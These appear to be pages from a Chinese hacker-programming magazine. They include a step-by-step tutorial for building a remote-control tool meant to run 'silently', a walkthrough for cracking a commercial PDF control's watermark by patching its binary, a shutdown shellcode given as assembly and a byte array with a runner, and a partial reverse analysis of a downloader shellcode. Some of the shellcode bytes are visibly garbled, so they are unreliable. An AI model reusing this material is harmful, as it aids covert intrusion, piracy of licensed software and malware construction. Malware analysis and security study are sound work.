已经几年了，很多朋友老是问我要远控，反问为啥自己不编写，就推诿于没资料、不懂。

今天我来演示如何编写一款远控，菜鸟编写远控不再是一个难题。

先给出自己画的一个新界面的远控截图，大家都可以很简单地编写这么一款远控（如图1）。

因为初步画的，很简陋。大家学会后，给朋友看，就别弄这么简陋的了。涉及相关的代码我会附上，一些技术点会写一个 TXT，有兴趣探究的人可以研究。我用 DELPHI XE2 UP3 编写（Update 3），破解版网上有。注意一点，破解的版本要和破解补丁配套。当时刚玩 XE2 的时候，闹了一个笑话：把 Update 3 版本用了 Update 1 的破解补丁，老不对。


图2


图3


图1


图4

打开 DELPHI XE2，画一个界面。点击 File -> New -> VCL Form Application（如图2）。

先把网络控件点出来，我用的是 TServerSocket，这个控件需要安装下，DELPHI 自带的。点击 Component -> Install Packages（如图3）。

打开后点击 Add（如图4）。

在弹出的对话框中选择 DELPHI XE2 安装目录。例如我在  
`F:\Program Files (x86)\Embarcadero\RAD Studio\`，  
要查找的地址就是：  
`F:\Program Files (x86)\Embarcadero\RAD Studio\9.0\bin\dclsockets160.bpl`。  
dclsockets160.bpl 是 TServerSocket 和 TClientSocket 两个控件的安装包。打开后，点击 Components。右侧边的控件找到 Internet（网络），点开后找到 TServerSocket 控件，拖动到窗体上（如图5、6）。


拖动上去，会提示更名，因为不能让调用控件和控件类本身同名，这涉及了一个理念“类”。我们现在只是为了初步开发远控，还没必要在这儿纠结（如图7、8）。

现在，测试下网络的监听，通信暂时不演示编写，会附上服务端代码，方便测试。点击 Form1 这个窗体，在左边的属性栏点击 Events，找到 OnCreate，在后边的空白处双击（如图9）。


写上代码：

```pascal
srvrsckt1.Port := 8080;
srvrsckt1.Active := True;
```

F9 跑起来，WIN7 提示网络操作，点击允许（如果你点击不允许，那么测试失败就不是我的错了，这个特性是 WIN7 和 Vista 的防火墙特有，XP 之类的防火墙不一样）（如图10）。


现在把客户端初步弄出来了，是否小有成就感？稍后会演示编写服务端的。

技术慢慢提升上去，不然直接给一个 12K4 的源码，估计新手一看就懵了。

## VB制作能计算网速的带进度的下载器

话说这几天小菜闲着无聊，没事就写了个游戏更新程序。一开始自己写了个服务端，通过和客户端的链接，然后将数据传给客户端。这样经过我的测试，发现在网速正常且客户端链接数量小的情况下是没问题的；一旦网速不好或者客户端连接数量太大，就会出现数据丢失，导致更新后的游戏相关文件出现异常。这样对于游戏更新程序来说是一个致命的错误，会造成游戏客户端的损坏。

所以小菜换了种方法：使用 Windows API 来实现文件下载，就像迅雷一样，最后经过我的努力终于实现。作为多年看 X 的忠实读者，这点共享精神还是有的。为了不让读者们走我走过的弯路，我就把我遇到的问题全都写上来。好了，废话不多说，下面转入正题。

```vb
URLDownloadToFile 0, Text1, Text, Text2, Text, 0, 0

End Sub
```

如图1。

```vb
Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" ...
Private Sub Command1_Click()
    URLDownloadToFile 0, Text1, Text, Text2, Text, 0, 0
End Sub
```


图1

## 一、最初的程序

既然上面说了，需要一个 API 来下载文件，我就看 MSDN，看到了这么一个 API：URLDownloadToFile。在 VB 中的声明方式如下：

```vb
Private Declare Function URLDownloadToFile Lib "urlmon" Alias "URLDownloadToFileA" (ByVal pCaller As Long, ByVal szURL As String, ByVal szFileName As String, ByVal dwReserved As Long, ByVal lpfnCB As Long) As Long
```

- 第一个参数：pCaller，控件的接口，如果不是控件则为 0。
- 第二个参数：szURL，要下载的 URL 地址，不能为空。
- 第三个参数：szFileName，下载后保存的文件名。
- 第四个参数：dwReserved，保留字段，必须为 0。
- 第五个参数：lpfnCB，下载进度状态回调。

到这为止是介绍 API 知识，我接着讲。于是我根据提示，在代码窗口写上了如下代码：

```vb
Private Declare Function URLDownloadToFile ...
Private Sub Command1_Click()
```

可是我输入进去下载链接和储存的文件路径和文件名，点击下载按钮的时候，程序假死了！直到文件下载完毕程序才恢复正常，这可让人头疼了，又没有下载进度，程序还假死。要是让用户用这样的游戏更新程序，用户会流失一大半，所以我决定解决这个问题。

于是我去看百度，终于找到了一些资料，说是这个 API 的最后一个参数指向了一个 IBindStatusCallback 接口的指针，用来返回进度等。于是乎我继续寻找关于 IBindStatusCallback 的资料，最后终于得知接口 IBindStatusCallback 存在于库 olelib 中。据说该库功能很强大，与 Windows 许多接口相通，读者们有兴趣可以去百度一下，我就不多说了。

## 二、完善的程序

根据 IBindStatusCallback 的资料，笔者着实实践了一番，最后终得正果。那么我就把代码发上来，给读者们讲解。

Form 的布局如图2。详细代码如下：

```vb
Dim WithEvents HjUrlDownFile As URLDownFile
Private Declare Function DeleteUrlCacheEntry Lib "Wininet.dll" Alias "DeleteUrlCacheEntryA" (ByVal lpszUrlName As String) As Long
Dim dKB_Tmp As Long, dKB(0 To 1) As Integer
```


```vb
Command1.Enabled = True
For i = 0 To 1
    dKB(i) = 0
Next i
Timer2.Enabled = False
End If
DoEvents
End Sub
```

到这里是声明变量 “HjUrlDownFile” 可调用类模块 “URLDownFile” 中的事件。第二句是 Windows API `DeleteUrlCacheEntry`，这个 API 主要用于清空缓存，防止下一次下载相同文件时是从缓存中下载的。主要用法如下：

```vb
DeleteUrlCacheEntry URL

Private Sub Command1_Click()
    Set HjUrlDownFile = New URLDownFile
    Timer1.Enabled = True
    Command1.Enabled = False
    HjUrlDownFile.DownloadFile Text1.Text, Text2.Text
End Sub
```

新对象的 OnProgress 事件中，第一句代码将进度条最大值设为下载文件字节大小；第二句将已下载大小赋给进度条；第三句将已下载进度赋给 dKB_Tmp 以便计算网速；第四句将标签内容改为当前下载百分比（Round(IProgress / IMax, 2) * 100）；后续代码在下载完成时重置变量、显示“下载完毕”、清空缓存、恢复按钮状态，并通过 For 循环初始化 dKB 数组，最后禁用计时器并 DoEvents 防止假死。

按钮中的代码第一句是用 Set 语句将新对象（URLDownFile）赋给变量 “HjUrlDownFile”。第二句将 Timer1 状态设为可用以激活过程代码计算网速。第三句禁用下载按钮防止重复点击。第四句调用 DownloadFile 事件，参数分别是下载地址和存储路径。这是类模块中的代码，读者主要是调用即可。

```vb
Private Sub HjUrlDownFile_OnProgress(ByVal IMax As Long, ByVal IProgress As Long, ByVal IStatusCode As olelib.BINDSTATUS)
    ProgressBar1.Max = IMax
    ProgressBar1.Value = IProgress
    dKB_Tmp = IProgress
    Label1.Caption = CStr(Round(IProgress / IMax, 2) * 100) & "%"
    If IMax = IProgress Then
        dKB_Tmp = 0
        Label3.Caption = "下载完毕"
        DeleteUrlCacheEntry Text1.Text
    End If
End Sub
```

```vb
Private Sub Timer1_Timer()
    dKB(1) = dKB_Tmp / 1024
    Label3.Caption = dKB(1) - dKB(0) & " KB/s"
    dKB(0) = dKB_Tmp / 1024
End Sub
```

Timer1 的过程里，第一句先得到这一秒下载了多少；将已下载大小除以 1024 后存入数组 dKB 的 dKB(1)。第二句用当前值减去上一秒值得到瞬时网速并显示到标签。第三句保存本秒进度，供下一次循环计算。

好了，到这里实现下载功能是没问题了。接下来可以实现由剪贴板直接读取下载地址，分离文件名，弹出下载窗口并点击按钮下载。下面继续详细解释代码。

```vb
Private WithEvents DownForm As Form

Private Sub Timer1_Timer()
    Dim tClipboard As String, tString As String
    Dim lng As Long

    tClipboard = Clipboard.GetText

    If Mid(tClipboard, 1, 4) = "http" And InStr(tClipboard, "/") > 0 Then
        If InStr(tClipboard, "?") <= 0 Then
            lng = InStr(tClipboard, "?")
            tString = Mid(tClipboard, 1, lng)
            tClipboard = Mid(tString, InStrRev(tString, "/") + 1)

            Set DownForm = New Form1
            DownForm.Text2.Text = tClipboard
            DownForm.Text3.Text = Clipboard.GetText
        End If
    End If
End Sub
```

```vb
' 下载地址
DownForm.Show
Clipboard.Clear
Set DownForm = Nothing

Else
    ' 如果没找到 ?
    tClipboard = Mid(tClipboard, InStrRev(tClipboard, "/") + 1)

    Set DownForm = New Form1
    DownForm.Text2.Text = tClipboard
    DownForm.Text1.Text = Clipboard.GetText

    DownForm.Show
    Clipboard.Clear
    Set DownForm = Nothing
End If
End If
End Sub
```

这里有两个函数 `InStr()` 和 `Mid()`。`InStr` 用来查找字符串，有三个参数 `InStr(Start, String1, String2)`。第一个参数代表从什么地方开始查找，也就是查找的起始位置；第二个参数是父文本，也就是从什么内容中查找；第三个参数是被查找的内容。`InStr` 函数如果找到了要找的内容，会返回要找内容的位置；如果没找到会返回 0。`Mid` 函数可以用来截取文本，有三个参数 `Mid(String, Start, Num)`，分别表示文本、起始位置、截取长度。结合上面的代码，读者们都会看懂的。

# 菜鸟也来编写远控（二）

上一次大家按照步骤画出了远控基本样式，是否有一点成就感？现在我们来编写服务端。我们服务端和客户端不同，采用 API 网络通信。这样开发或许会麻烦一些，但是好处很多，原因在附录中有叙述。

打开 XE2，选择控制台程序：File -> New -> Console Application（图1）。我这个创建文件部分是自己修改过的。

点击：File -> New -> Customize（图2）。把 Separator 中拖动到右侧即可。点击新建单元（图3）。此时开始设计远控框架了：

```pascal
const
  // 最大缓存区大小
  MaxSize = 1024 * 4;

  // 命令头标识
  dwLogin = $001;

type
  TData = record
    // 标识头
    Id: DWORD;
    // 数据缓存区
    Buffer: array[0..MaxSize - 1] of Byte;
  end;
```


图3

Ctrl + F9 编译通过，保存在 Command 目录下，命名为 HeadUnit.pas。这个单元会在服务端和客户端之间都应用，所以叫公用单元。保存工程在 Server 目录下。远控的 API 通信这里就不写完整代码了，我直接给出单元的调用方式，具体看代码注释自行研究。接口 4 个：一个发数据包、一个收数据包、一个连接、一个断开。


图1

```pascal
function xRecvBuffer(FSocket: Integer; var Buffer; BufferSize: Integer): Boolean;
function xSendBuffer(FSocket: Integer; var Buffer; BufferSize: Integer): Boolean;
function xConnectDns(Dns: PAnsiChar; Port: DWORD; var SocketHandle: TSocket): Boolean;
procedure xDisconnect(FSocket: Integer);
```

开两个 XE2，一个加载服务端，一个加载客户端。找到 srvsckt1，在事件栏的 OnClientConnect 双击，写入一行测试代码：

```pascal
MessageBoxW(0, nil, nil, 0);
```

这个就是弹出一个错误对话框，内容和标题为空。如果连接上客户端了，就会响应。F9 跑起来，再打开服务端，在工程的入口点，就是 Server 工程的 `begin end`，添加引用 winsock。在 uses 的连接中 “;” 之间，加入一个逗号，再输入 `Winapi.WinSock`。


图2

在 Interface 和 implementation 之间编译不过，为啥？因为 DWORD 类型没有声明，因此要在 Windows 单元的 const 中，Interface 下方添加 uses：

`Winapi.Windows;`

```pascal
uses
  System.SysUtils, // 异常捕获需要的，我们没用到，正式发布的时候删除。
  HeadUnit in '.\Command\HeadUnit.pas', // 公用单元
  SocketUnit in 'SocketUnit.pas'; // 自行编写的网络单元
```

# 黑客编程

```pascal
Winapi_WinSock

正在写入如下代码：

var
  socketHandle: TSocket;

定义一个网络句柄，开始编写连接服务器的代码：

if XConnectDns('127.0.0.1', 8080, socketHandle) then
begin
  ...
end;
XDisconnect(socketHandle);
```

连接 127.0.0.1 的 8080 端口，第三个参数是传值的网络句柄，连接成功则为 true。进入 if 语句下的 `begin end;` 之间。无论连接成功与否，都清空网络句柄（PS：有创建就得有销毁，系统的力量也不是无限的，要充分利用，俗话说，有借有还，再借也不难。把系统资源占用了不释放，会对系统有影响。既然远控，就是要悄然无声的。）。


F8 单步调试。OK，弹出对话框（图4），表示成功连接到客户端。

（文中涉及的相关代码本期光盘已收录）

## 多重缓冲 VS 20G大数据

沧海浮萍

这几天经理让我写个处理 20G 英语数据的程序，统计出这个大文件中出现的单词以及单词出现的频率。在测试的过程中总结了两类方法，在这里跟大家分享一下，如果遇到类似的情况，你也可以这么做。

我采用的第一种方法是文件映射，这也是羽几兄弟介绍的。这个方法在这里不介绍，读者也可以自己看代码，这里主要介绍第二种方法，那就是文件流法。说实话，当初想采用这个方法的时候自己都感觉打怵，毕竟用文件流读取 20G 的数据再加上处理，会不会慢死呀\~\~\~\~实践出真知，在文件连续的情况下，采用 I/O 文件流的方法磁盘的读取速度可以到 70M/s，而采用文件映射则只有 30M/s。如果你的文件是连续的大文件，那么建议你使用文件流处理数据；如果文件是不连续的，那么建议使用文件映射。好了，这里就介绍一下整个程序的构架。

由于文件是连续的，所以 I/O 的速度相当快，文件的处理速度应该赶不上这个读取速度，所以这里使用了 4 个缓冲池来存放数据，同时开 4 个线程并发处理这 4 个缓冲池的数据，另外开一个单独的线程来监控这 4 个线程，如果某一个线程结束，那么就重新读取数据，并再次启动数据处理线程。总之这个线程就是个调度线程。单词的分割这里采用的是空格，所以在内存查找单词的时候找空格就可以了，两个空格之间的部分就是单词（当然边界的单词可能被分割，这个单独处理）。下面来看代码。

首先我们需要定义缓冲块的大小以及文件偏移存储：

```cpp
__int64 myblock = 150 * 1024 * 1024;
// 缓冲块大小

__int64 offset = 0;
// 文件偏移
```

我们的程序中主要分为 5 个线程：主线程以及 4 个辅助线程。主线程的作用就是读取数据并负责其余 4 个辅助线程的调度，这几个辅助线程的作用就是负责缓冲区数据的处理。为了很好地调度线程，这里我们使用了多线程同步机制，对同步不懂的童鞋需要自己查资料啦。下面是我们声明的线程：

```cpp
DWORD WINAPI MainThread(LPVOID lparam);
// 主线程

DWORD WINAPI MyCheck(LPVOID lparam);
// 数据处理线程
```

在启动主线程之前我们需要进行一系列的初始化工作，这个也交给我们的一个线程处理。

看一下主线程的实现：

```cpp
/*------------------------------
 * Description: 数据初始化以及最后单词的处理与结果输出
 * Parameter:
 *   [IN] LPVOID lparam [线程参数的指针]
 * Return: DWORD
 * Notes:
 *   该线程负责数据的初始化工作
 *------------------------------*/
DWORD WINAPI InitQ(LPVOID lparam) // 初始化
{
    Ptr1 = (char *)malloc(myblock); // 申请缓冲区
    Ptr2 = (char *)malloc(myblock);
    Ptr3 = (char *)malloc(myblock);
    Ptr4 = (char *)malloc(myblock);

    endwork = CreateEvent(NULL, TRUE, FALSE, NULL); // 任务结束事件

    stru1.hd = lp[0] = CreateEvent(NULL, TRUE, FALSE, NULL); // 线程结束事件
    stru2.hd = lp[1] = CreateEvent(NULL, TRUE, FALSE, NULL);
    stru3.hd = lp[2] = CreateEvent(NULL, TRUE, FALSE, NULL);
    stru4.hd = lp[3] = CreateEvent(NULL, TRUE, FALSE, NULL);

    // 开启调度主线程
    AfxBeginThread((AFX_THREADPROC)MainThread, THREAD_PRIORITY_NORMAL, 0, 0, NULL);

    WaitForSingleObject(endwork, INFINITE); // 等待调度主线程结束
    stop = TRUE; // 任务结束标志

    // 下面是主线程结束后的收尾工作
}
```

```cpp
/*------------------------------
 * Description: 调度主线程
 * Parameter:
 *   [IN] LPVOID lparam [线程参数的指针]
 * Return: DWORD
 * Notes:
 *   该线程负责数据的读取以及处理线程的调度
 *------------------------------*/
DWORD WINAPI MainThread(LPVOID lparam)
{
    // 调度主线程
    ifstream myfile;
    myfile.open(myfilename.c_str()); // 打开文件

    stru1.ptr = Ptr1;
    stru2.ptr = Ptr2;
    stru3.ptr = Ptr3;
    stru4.ptr = Ptr4;

    myfile.read(stru1.ptr, myblock); // 填充4个缓冲区
    myfile.read(stru2.ptr, myblock);
    myfile.read(stru3.ptr, myblock);
    myfile.read(stru4.ptr, myblock);

    DWORD td;
    // 激活数据处理线程
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru1, 0, &td);
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru2, 0, &td);
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru3, 0, &td);
    CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru4, 0, &td);

    DWORD dwRet = 0;
    int nIndex = 0;

    // 线程调度
    while (!myfile.eof())
    {
        dwRet = WaitForMultipleObjects(4, lp, FALSE, INFINITE);

        nIndex = dwRet - WAIT_OBJECT_0 + 1;

        switch (nIndex) // 得到已经结束的线程索引，并重新调度
        {
        case 1:
            myfile.read(stru1.ptr, myblock);
            ResetEvent(lp[0]);
            hd = lp[0];
            CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru1, 0, &td);
            break;
        case 2:
            myfile.read(stru2.ptr, myblock);
            ResetEvent(lp[1]);
            hd = lp[1];
            CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru2, 0, &td);
            break;
        case 3:
            myfile.read(stru3.ptr, myblock);
            ResetEvent(lp[2]);
            hd = lp[2];
            CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru3, 0, &td);
            break;
        case 4:
            myfile.read(stru4.ptr, myblock);
            ResetEvent(lp[3]);
            hd = lp[3];
            CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)MyCheck, &stru4, 0, &td);
            break;
        }
    }

    myfile.close();
    SetEvent(endwork); // 任务结束
    return 0;
}
```

主线程启动后首先将 4 个缓冲区填满，然后启动 4 个数据处理线程分别处理这 4 个缓冲区的数据。当其中的一个线程结束之后，我们可以得到当前结束的线程的索引号，这样我们的主线程就再次填充已经处理完的那个缓冲区，并重启已经结束的线程。这样在没有读完文件时不断地循环，直到文件读取完毕，并通知结束。下面是我们的数据处理线程：

```cpp
/*----------------------------------------
 * Description: 该线程负责数据处理
 * Parameter:
 *   [IN] LPVOID lparam [线程参数的指针]
 * Return: DWORD
 * Notes:
 *   该线程为数据处理核心线程。
 *----------------------------------------*/
DWORD WINAPI MyCheck(LPVOID lparam)
{
    mys* tp = (mys*)lparam;
    char *off_set = tp->ptr;
    // 下面是单词的获取以及保存、计数
    string buf = off_set;
    string tmp;
    string::size_type mypos = buf.find_first_of(" ");
    string::size_type mybegin = 0, tmp_end = 0;
    for (; mypos != string::npos; )
    {
        tmp = buf.substr(mybegin, mypos - mybegin);
        mybegin = mypos + 1;
        tmp_end = mybegin; // 记录最后一个空格的位置
    }

    tp->mymap[tmp]++;
    mypos = buf.find(" ", mybegin);
    ...
    tmp = buf.substr(tmp_end, myblock - tmp_end); // 最后一个没找到空格的单词
    tp->mymap[tmp]++;
    ...
    ZeroMemory(tp->ptr, myblock);
    SetEvent(tp->hd);
    return 0;
}
```

这里是我们处理数据的核心线程，里面使用 hash_map 来存储我们的单词。

本文看似纯粹的编程，但是这里跟大家分享的是一种编程的思路。在我们的黑客编程中，大数据处理是一定会用到的，比如说感染 ISO/GHO 文件，这就需要进行大文件处理。当然，在大文件处理中我们不仅仅可以使用 I/O 流处理，用得最多的还有文件映射。这两种方法各有优势，对于连续存储的大文件来说，I/O 的性能要远远高于文件映射；但如果遇到非常不连续的文件的话，还是用映射吧，因为这时候两个差不多了。

在附带的代码中已经实现了文件映射与缓冲区读取两种方法，读者可以自己参考阅读。如果没有这么大的文件，在工程中也添加了生成文件的函数。

> （文中涉及的相关程序及代码本期光盘已收录）

## 破解PDF控件中的水印

枯叶

最近找到一个功能还算挺全面的可以阅读 PDF 的控件，下载以后发现里面还提供了关于 VC 和 HTML 的调用该控件的演示代码。打开提供的 VC 的 DEMO 程序看一下效果，发现免费下载的这个控件中竟然有水印，如图1所示。为了不影响我的使用效果，下面我们就一起去掉这个水印吧。


图1


图2

控件中提供的 VC 代码编译好的程序名是“PDFView-Test”，使用 OD 将它打开并运行起来，然后打开一个 PDF 文件。我们先来搜索 ASCII 字符串，结果是没有搜索出我们想要的字符串；我们再来搜索 UNICODE 字符串，同样也没有搜索到我们想要的字符串，如图2所示。

我们观察图2的内容可以发现，OD 的搜索插件只为我们搜索了 0040XXXX 空间的字符串，但是 0040XXXX 的空间是“PDFViewTest”的虚拟地址空间，并不是 PDF 控件的虚拟内存空间，因此我们要到 PDF 控件的虚拟内存空间来查找字符串。我们打开 OD 的虚拟内存映射界面，查找“PDFView”（PDF 控件的文件名是 PDFView.ocx）的虚拟内存地址，如图3所示。从图3可以看出“PDFView”的虚拟地址空间是从 10000000 开始的，而它的代码节是从 10001000 开始的，我们在 10001000 地址处按下回车，来到“PDFView”的代码节处，然后搜索 ASCII 字符串，这次找到的字符串就非常之多了。我们按下 CTRL+F 快捷键，来查找字符串“YCanPDF”（在搜索的时候不需要区分大小写），在我们的不断搜索下，终于找到了我们想要的字符串“YCanPDF-优看科技”，并且在紧挨着的地方看到了另一个字符串“http://www.YCanPDF.cn”，如图4所示。我们选择一处字符串按下回车，来到调用字符串的反汇编代码处，反汇编如下：

```asm
100AFDDE  MOV EAX,DWORD PTR SS:[EBP+480]
100AFDE4  MOV DWORD PTR SS:[ESP+90],EAX
100AFDEB  MOV DWORD PTR SS:[ESP+9C],ECX
100AFDF2  PUSH 1019A6B0
YCanPDF—优看科技
100AFDF7  LEA ECX,DWORD PTR SS:[ESP+98]
100AFDFE  CALL 10004D40
100AFE03  FLD DWORD PTR SS:[ESP+90]
100AFE0A  MOV ECX,DWORD PTR SS:[ESP+94]
100AFE13  MOV EAX,DWORD PTR DS:[ECX-C]
```


我们从地址 100AFDF2 处可以看出，`PUSH 1019A6B0` 是将字符串“YCanPDF—优看科技”进行压栈，这里必将是调用该字符串的位置（废话~~）。不管别的，我们在数据窗口中按 CTRL+G，输入地址 1019A6B0 来查该字符串的位置，如图5所示。我们在修改字符串时，只要将第一个字节修改为 00 即可，因为在使用字符串的时候 ASCII 码的“00”表示字符串结尾。我们用同样的方法再修改另外一个字符串。最后，将修改过的控件保存到硬盘上，替换掉原来的 OCX 控件。替换后再运行查看，水印让我们移除了。


以上内容就完成了我们的破解之旅，但是这里再给出另外一种方法。这种方法是只针对“http://www.YCanPDF.cn”字符串的。我们查看一下在调用该字符串的反汇编代码，代码如下：

```asm
100AFF12  MOV ECX,EBP
100AFF14  CALL 100C3DA0
100AFF19  PUSH 15
100AFF1B  PUSH 1019A670
http://www.YCanPDF.cn
100AFF20  LEA ECX,DWORD PTR SS:[ESP+9C]
100AFF27  CALL 10005340
```

在这段反汇编代码中的 100AFF19 处执行了 `PUSH 15`，这里的 15 是十六进制形式的，也就是十进制的 21，21 是“http://www.YCanPDF.cn”的字符串长度。我们只要将这里的 15 改为 0，那么在调用 10005340 这个函数时就会认为字符串的长度为 0，那么也能达到我们移除该水印的效果。但是，代码中多次使用了该字符串，如果逐个这样修改反汇编代码的话，将是一个体力活，因此我们还是使用前面介绍的方法。

本文针对破解这个简单的水印给出了两种方法，一种是直接修改代码对字符串的调用，另一种方法是修改字符串的数据。两种方法我觉得后一种比较可靠，因为第一种方法遇到多处使用就累人了。希望本文能给大家带来启发。（文中涉及的相关程序本期光盘已收录）

# Hacking shellcode

好久没写 shellcode 了，今天来写个关机功能的 shellcode 熟悉一下。相信大家对 shellcode 已经比较熟悉了，本节就写个简单的 shellcode，介绍一下普通 shellcode 编写时应该注意的问题。

对于 shellcode 的用途以及含义就不再解释了。在写 shellcode 之前我们一般要先用汇编语言将目标函数写出来，这里我们实现的是关机功能，使用的是 msvcrt.dll 库中的 system 函数，命令：`system("shutdown -s -t 3000")`。由于该函数在 msvcrt.dll 库中，所以我们在使用的时候需要将这个库载入，载入使用函数 `LoadLibraryA("msvcrt.dll")`。

# 黑客编程

LibraryA函数在 XP SP3 的地址是 `0x7C801D7B`。当然，如果为了更加通用，我们可以动态获取所有用到的函数地址，不过这就有点麻烦了，这里就直接硬编码 XP SP3 的地址了。下面是我们实现功能的汇编代码：

```asm
mov eax,ebx
mov ebx,eax
mov eax,ebx
mov ebx,eax

//LoadLibraryA("msvcrt.dll")
xor eax,eax
push eax
push 6C6Ch
push 642E7472h
push 6376736Dh
mov edx,esp
mov eax,0x7C801D7B
push edx
call eax
add esp,0x10

//shutdown -s -a 3000
xor eax,eax
push eax
push 303030h
push 3320742Dh
push 20732D20h
push 6E776F64h
push 74756873h
mov eax,0x77BF93C7
mov edx,esp
push edx
call eax
add esp,0x1c
```

上面就是我们的汇编函数了。新手在写汇编的时候最容易犯的错误就是栈不平衡。在我们将函数名、文件名或者命令参数压入堆栈时，一定要注意参数的字节顺序。例如：`shutdown -s -a 3000` 对应的16进制是：`73687574646F776E202D73202D612033303030`，但在我们压栈的时候需要逆序进行。

我们再来看一下我们对代码的栈处理。在第一个 `call eax` 后我们使用了指令 `add esp,0x10`；后面的调用中我们使用了 7 个 `push`，对应 `add esp,0x1c`。这里涉及 `__stdcall` 与 `__cdecl` 调用约定的差异：前者可由被调函数平衡部分栈，后者通常由调用者清理栈。

图1

下面就是我们提取的 shellcode，我们用数组来存放：

```c
unsigned char shut[]={
"\x50"
"\x68\x6c\x6c\x00\x00"
"\x68\x72\x74\x2e\x64"
"\x68\x6d\x73\x76\x63"
"\x6b\xd4" ...
"\xb8\x7b\x1d\x80\x7c"
"\x52"
"\xff\xd0"
"\x83\xc4\x10"
"\x33\xc0"
"\x50"
"\x68\x30\x30\x30\x00"
"\x68\x2d\x74\x20\x33"
"\x68\x20\x2d\x73\x20"
"\x68\x64\x6f\x77\x6e"
"\x68\x73\x68\x75\x74"
"\x68\x7f\x93\xbf\x77"
"\x8b\xd4"
"\x52"
"\xff\xd0"
"\x83\xc4\x1c";
};
```

运行程序，就可以看到结果了，如图2所示。成功执行我们的 shellcode。

图2

本文演示了简单的 shellcode 编写方法，对于网络通信的 shellcode 也是同样的编写道理。这里面最关键的就是参数的入栈、函数地址获取以及堆栈的平衡。编写复杂的 shellcode 需要注意的问题很多，比如说指令截断问题等等。要想写出优秀的 shellcode，我们必须熟练掌握汇编语言。当然如果你用 C/C++ 的话也是可以的，但不如汇编直观。

（文中涉及的相关代码本期光盘已收录）

我们在主程序中将其作为一个函数来进行调用测试，代码如下：

```c
((void(*)(void))&shut)();
```

## Lion下我看ShellCode逆向分析

在网络安全界有一个传奇式的人物，他就是 Lion，红客联盟的创始人。在其博客上看到一段下载者的 ShellCode 代码，好奇与崇拜之情让我有了一次逆向之旅。很多朋友觉得“缓冲区溢出”与“ShellCode”非常神秘，读完本文，我想你会觉得它实在是太“easy”了！

### 一、怎样逆向分析ShellCode

Lion 那篇博文中的 ShellCode 如图1所示。

在开始之前，我们首先说一下什么是 ShellCode。它实际上就是一段高度精简的功能机器码，因为很多时候针对特定漏洞编写这样的代码，就是为了让漏洞目标机返回一个 Shell（可以理解为 Windows 中的 cmd.exe 或者 Linux 中的 bash），因此称为 ShellCode。

因为 ShellCode 是独立的高度精简的二进制代码，所以它不能像 exe 文件那样单独执行，因此我们需要借助于一个已存在的程序，将 ShellCode 植入到已存在程序中，通过调试已存在程序来实现对 ShellCode 的逆向分析。植入 ShellCode 的程序我已经写好了，本文以 cmd.exe 为例，首先复制 cmd.exe 到 writeshellcode.exe（已打包）的目录中，然后在 Cmd 中执行：`writeshellcode.exe cmd.exe`，这样就可以将 ShellCode 的内容写入到 cmd.exe 中，如图2所示。

图2

为什么我们要动态调试 ShellCode，而不是使用 IDA 静态地对 Shellcode 进行反汇编分析？那是因为 ShellCode 很多时候会进行一些简单的加密异或处理，因此静态反汇编出来的代码都是加密过的，我们根本无法真正了解它的运行机制。

### 二、下载者ShellCode解码详细解析

用 OllyDbg 打开已写入 ShellCode 的 cmd.exe，可能会出现一些提示，按“确定”按钮即可。载入后，如图3所示。

图3

F8 单步 2 次后执行到 `4AD75017` 的 `call` 指令处，此时 F7 跟进，这时候程序执行到 `4AD75007` 的 `pop edx` 指令处，继续 F8，在 `4AD75013` 的 `loopd` 指令处，程序进入循环执行。注意上面的 `xor` 指令，此时 ShellCode 开始解码，它的加密方式很简单，就是将 ShellCode 的起始位置与 `0x99` 进行异或处理。

### 2.1 Windows API函数的定位原理

在 `loopd` 指令的下一条指令 `jmp` 处按 F4，让程序执行到 `4AD75015` 处，这样就可以跳过循环了。继续向下走，碰到 `call` 直接 F7 跟进，会发现如下代码。

```asm
4AD75021  5A                pop edx            ; 函数返回的地址保存到edx中
4AD75022  64 A1 30000000    mov eax, dword ptr fs:[30] ; 取PEB
4AD75028  8B40 0C           mov eax, dword ptr [eax+0C] ; PEB->Ldr
4AD7502B  8B70 1C           mov esi, dword ptr [eax+1C] ; 初始化列表到esi
4AD7502E  AD                lods dword ptr [esi]        ; [esi]=>eax
4AD7502F  8B40 08           mov eax, dword ptr [eax+8]  ; eax=kernel32.dll的地址
4AD75032  8BD8              mov ebx, eax                ; ebx=kernel32.dll的基址
4AD75034  8B73 3C           mov esi, dword ptr [ebx+3C] ; esi=PE头偏移
4AD75037  8B741E 78         mov esi, dword ptr [esi+ebx+78] ; esi为kernel32.dll导出表偏移
4AD7503B  03F3              add esi, ebx                ; esi=kernel32.dll导出表虚拟地址
4AD7503D  8B7E 20           mov edi, dword ptr [esi+20] ; edi=ENT的偏移地址
4AD75040  03FB              add edi, ebx                ; edi=ENT的虚拟地址
4AD75042  8B4E 14           mov ecx, dword ptr [esi+14] ; ecx=kernel32.dll导出地址的个数
4AD75045  33ED              xor ebp, ebp                ; ebp=0
4AD75047  56                push esi                    ; 保存导出表虚拟地址
4AD75048  57                push edi                    ; 保存ENT虚拟地址
```

```text
4AD75049      8BCD            mov     ecx, ebp
57            push    ecx        ; 计数保存于ecx
; 保存计数
4AD7504A      8B3F            mov     edi, dword ptr [edi]
; edi + dword ptr [edi]
4AD7504C      03FB            add     edi, ebx
; 定位ENT中的函数名
4AD7504E      8BF2            mov     esi, edx
; esi为要查询的函数GetProcAddress，即该call的下一个地址是数据
4AD75050      6A 0E           push    0E
; 0x0E是GetProcAddress函数的字符个数
4AD75052      59              pop     ecx
; 设置循环次数为0x0E
4AD75053      F3:A6           repe    cmps byte ptr es:[edi], byte ptr [esi]
; ecx!=0&&zf=1, ecx=ecx-1, cmps判断GetProcAddress
4AD75055      74 08           je      short 4AD7505F
; 如果ENT中的函数名为GetProcAddress跳走
4AD75057      59              pop     ecx
; 不相等则将导出地址数出栈
4AD75058      5F              pop     edi
; ENT虚拟地址出栈
4AD75059      83 C7 04        add     edi, 4
; edi地址递增4字节，因为ENT的元素大小为4字节
4AD7505C      45              inc     ebp
